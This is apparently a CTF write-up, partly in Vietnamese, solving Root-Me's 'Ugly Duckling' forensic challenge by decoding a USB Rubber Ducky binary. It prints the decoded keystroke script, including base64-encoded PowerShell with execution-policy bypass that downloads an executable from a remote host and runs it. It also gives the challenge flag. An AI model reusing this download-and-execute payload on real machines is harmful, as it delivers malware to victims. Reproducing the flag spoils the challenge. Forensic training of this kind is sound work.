

### Description
> The CEO’s computer seems to have been compromised internally. A young trainee dissatisfied with not having been paid during his internship arouse our supsicion. A strange USB stick containing a binary file was found on the trainee’s desk. The CEO relies on you to analyze this file.
### Link challenge
> https://www.root-me.org/en/Challenges/Forensic/Ugly-Duckling
### Solution 
- Sau khi đọc description với tải file về mình cũng không nhận định được là mình phải làm gì, rất may sau 1 hồi tìm google mình tìm thấy [trang này](https://shop.hak5.org/products/usb-rubber-ducky)
- Sau đó mình tiếp tục tìm hướng để xuất dữ liệu từ usb ra theo tool [được tìm từ github](https://github.com/JPaulMora/Duck-Decoder)


```
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Downloads/Duck-Decoder]
└─$ python2 DuckDecoder.py display file.bin 
iexplore http://challenge01.root-me.org/forensic/ch14/files/796f75277665206265656e2054524f4c4c4544.jpg

CONTROL S

%USERPROFILE%Documents796f75277665206265656e2054524f4c4c4544.jpg
                                   

DOWN
DOWN
DOWN
DOWN


DOWN
DOWN

powershell Start-Process powershell -Verb runAsPowerShell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AApowershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoAexit


```
- Thấy rằng 1 lệnh powershell được chạy, decode base64 để xem nó là lệnh gì 
```
aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AA ===> iex (New-Object System.Net.WebClient).DownloadFile('http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe','666c61676765643f.exe');
```
- Lệnh này tải xuống tập tin 666c61676765643f.exe từ đường dẫn http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe

```
aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoA 
==> iex (New-Object -com shell.application).shellexecute('666c61676765643f.exe');
```
- Lệnh này thực thi tệp vừa tải 
- Tải nó xuống bằng wget và load vào ida thì thấy flag 
- 
> RubberDuckyFail3D